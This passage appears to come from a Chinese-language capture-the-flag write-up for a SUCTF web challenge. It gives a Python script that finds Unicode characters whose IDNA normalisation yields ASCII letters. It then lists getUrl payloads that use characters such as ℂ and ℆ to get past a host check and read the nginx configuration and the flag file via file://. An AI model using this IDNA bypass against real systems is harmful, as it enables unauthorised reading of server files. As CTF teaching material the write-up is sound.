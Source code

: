 ![](/pic/69.png)

Altman师傅写的脚本

```
# coding:utf-8 
for i in range(128,65537):    
    tmp=chr(i)    
    try:        
        res = tmp.encode('idna').decode('utf-8')        
        if("-") in res:            
            continue        
        print("U:{}    A:{}      ascii:{} ".format(tmp, res, i))    
    except:        
        pass
```


可以使用**U+2102，ℂ**代替c，或者**U+2106, ℆**代替c/u


读取网站配置文件

```
getUrl?url=file:////suctf.ℂℂ/usr/local/nginx/conf/nginx.conf
或者
getUrl?url=file:////suctf.c℆usr/local/nginx/conf/nginx.conf
```

读取flag

```
/getUrl?url=file://suctf.cℂ/usr/fffffflag
或者
getUrl?url=file:////suctf.c℆usr/fffffflag
```



## EasySQL

拿到题目是一个输入框，post类型提交
